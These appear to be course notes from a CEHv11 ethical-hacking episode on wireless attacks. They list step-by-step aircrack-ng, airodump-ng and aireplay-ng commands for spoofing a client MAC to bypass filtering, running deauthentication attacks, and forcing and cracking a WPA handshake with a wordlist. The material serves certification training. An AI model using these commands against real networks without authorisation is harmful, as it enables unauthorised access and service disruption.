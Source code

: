     Filename: eccouncil-ceh31250-v11-16-4-1-wireless-hacking.md
    Show Name: CEHv11 (312-50)
    Topic Name: Wireless Network Hacking - Hacking Wireless Networks
    Episode Name: Wireless Hacking ================================================================================

Wireless Hacking
Objectives:

    Explain and demonstrate breaking common wireless hacking techniques used to gain unauthorized access to wireless systems

#    MAC Spoofing
-        Bypass MAC Filtering
-            sudo airmon-ng start wlan0
-            Record the BSSID if the target device
-            sudo airodump-ng -c 6 --bssid <Target_MAC> -w psk wlan0mon

-            This will show connected clients MAC addresses

-            sudo airmon-ng stop wlan0mon
-            sudo ifconfig wlan0 down
-            sudo ifconfig wlan0 hw ether <Client_MAC>
-            sudo ifconfig wlan0 up

-            Connect to MAC filtered wireless network







#    De-authentication Attack
-        Follow the same steps above to discover clients for deauth
-            Then...
-                sudo aireplay-ng --deauth 25 -h <Client_MAC> -b <Target_MAC> wlan0

#    WPA Cracking
        Put wireless card into monitoring mode
            airmon-ng -start wlan0
            Find BSSID of target AP
                airodump-ng wlan0mon
                Record BSSID and channel of Target AP
            Monitor target AP
                airodump-ng -c 6 --bssid 00:1C:DF:89:84:9F -w ceh.cap wlan0mon
                    -c = channel number
                    -w = write out file location
            Wait for 4-way handshake or force with aireplay-ng
                Force 4-way handshake
                    aireplay-ng -0 2 -a 00:1C:DF:89:84:9F -c <clientMAC> wlan0mon
                        Check the airodump-ng capture for 4-way handshake
            Time to crack the WPA key
                aircrack-ng -a2 -b 00:1C:DF:89:84:9F -w ~/Documents/rockyou.txt *.cap
                    Record the cracked PSK
            Return wireless device to normal operation
                airmon-ng stop wlan0mon
                service networkmanager start
            Attempt to connect to Target AP with cracked PSK
